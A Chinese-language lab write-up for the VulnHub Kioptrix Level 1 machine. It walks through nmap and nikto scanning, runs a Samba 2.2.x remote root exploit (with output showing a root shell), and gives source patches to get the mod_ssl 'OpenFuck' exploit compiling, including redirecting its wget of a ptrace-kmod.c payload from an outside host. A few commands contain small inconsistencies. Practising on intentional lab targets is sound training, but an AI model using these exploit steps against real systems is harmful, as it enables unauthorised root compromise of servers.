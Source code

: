 ﻿# Kioptrix-1

## 0x0 Preview

首先参考一下[这篇文章](https://github.com/isecurityplus/OSCP/blob/master/VulnHub/GetIP.md)获取靶机 IP 地址：

确认靶机 IP 地址为：`192.168.31.113`

## 0x1 信息收集

 首先使用 nmap 对目标进行信息收集：

```bash
sudo nmap -sV -sS -sC -p1-65535 --open -v 192.168.31.113
```

扫描结果如下：

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open  rpcbind     2 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd (workgroup: bMYGROUP)
443/tcp open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2020-08-02T10:43:54+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5

Host script results:
|_clock-skew: 1m49s
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_smb2-time: Protocol negotiation failed (SMB2)
```

使用 nikto 对 80 HTTP 服务进行扫描：

```bash
nikto -host 192.168.31.113
```

扫描结果：

```bash
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
**+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.**
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8728 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2020-08-02 07:49:58 (GMT-4) (129 seconds)                                           
---------------------------------------------------------------------------                               
+ 1 host(s) tested
```

收集到的信息：

-  根据 nikto 结果，靶机使用 mod_ssl version 2.8 可能存在 remote buffer overflow 
-  靶机使用 samba 服务

## 0x3 突破点一：Samba 服务

使用 msf 的`auxiliary/scanner/smb/smb_version` :

![image.png](https://i.loli.net/2020/08/07/UQc2DkCy8J7Y5ql.png)

可以看到目标服务器使用 `Samba 2.2.1a`

searchsploit 搜索发现该版本存在 RCE 漏洞： 

![image.png](https://i.loli.net/2020/08/07/dwgr6DfZkbuHMhy.png)

编译：

```
gcc 10.c -o sambal
```

编译完成后发起攻击：`./sambal -b 0 -v 10.11.31.113`

```
kali@kali:~$ ./sambal -b 0 -v 192.168.31.113
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

## 0x4 突破点二： Apache mode_ssl

不过在编译之前，我们需要先对`764.c` 做一些修改才能编译成功：

> *或者你可以直接在这里下载我修改后的：[https://github.com/isecurityplus/OSCP/blob/master/web-exploit-exp/Apache/764.c(CVE-2002-0082)](https://github.com/isecurityplus/OSCP/blob/master/web-exploit-exp/Apache/764.c(CVE-2002-0082))*

### 第一步：在开头添加模块：

```bash
#include <openssl/rc4.h>
#include <openssl/md5.h>
#define SSL2_MT_ERROR 0
#define SSL2_MT_CLIENT_FINISHED 3
#define SSL2_MT_SERVER_HELLO 4
#define SSL2_MT_SERVER_VERIFY 5
#define SSL2_MT_SERVER_FINISHED 6
#define SSL2_MAX_CONNECTION_ID_LENGTH 16
```
![image.png](https://i.loli.net/2020/08/07/UQc2DkCy8J7Y5ql.png)


### 第二步：替换 wget 后的 URL：

将如下行：

```bash
http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
```

修改为：

```bash
https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

![image.png](https://i.loli.net/2020/08/07/dwgr6DfZkbuHMhy.png)

### 第三步：修改如下行内容：

将如下行：

```bash
*unsigned char *p, *end;*
```

修改为：

```bash
*const unsigned char *p, *end;*
```

> 大概在 970 行左右，在 vim 中可以使用`970gg` 快速跳转到 920 行

![](https://i.loli.net/2020/08/07/oDGsRqrwuQFOY7z.png)

### 第四步：修改如下行内容：

```bash
将：
if (pkey->type != EVP_PKEY_RSA) {
修改为：
if (EVP_PKEY_get1_RSA(pkey) == NULL) {
——————
将：
encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], pkey->pkey.rsa, RSA_PKCS1_PADDING);
修改为：
encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);
```

修改完成后：

![image.png](https://i.loli.net/2020/08/07/oDGsRqrwuQFOY7z.png)

### 第五步：安装 “libssl-dev”

```bash
sudo apt-get install libssl-dev
```

### 第六步：编译

```bash
gcc 764.c -o 764 -lcrypto
```

![image.png](https://i.loli.net/2020/08/07/OsJjGPe6wL7hM2X.png)

自此，就编译完成了，使用如下命令发起攻击：

```bash
./764 0x6b 443 192.168.31.113 -c 40
```

> 看其他人都可以成功 getshell，不过我试了好多次都无法成功，也不知是不是 macOS Vmware Fusion 的原因。
